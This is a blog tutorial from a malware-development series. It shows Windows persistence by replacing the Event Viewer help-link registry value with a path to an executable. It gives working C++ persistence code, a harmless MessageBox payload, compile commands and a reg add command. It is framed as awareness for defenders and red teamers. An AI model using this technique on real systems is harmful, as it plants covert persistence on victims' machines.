





\newpage
\subsection{80. malware development: persistence - part 14. Event Viewer help link. Simple C++ example.}

﷽

{width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

{width="80%"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

{width="80%"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

{width="80%"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

check correctness:    

{width="80%"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

{width="80%"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

{width="80%"}    

Finally, try to click *Event Log Online Help* link again:    

{width="80%"}    

{width="80%"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

{width="80%"}    

{width="80%"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v 
"MicrosoftRedirectionUrl" /t REG_SZ /d 
"http://go.microsoft.com/fwlink/events.asp" /f
```

{width="80%"}    

or just restore virtual machine.     

> This is admin-level malware persistence trick, so this feature is work only with admin permissions       

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
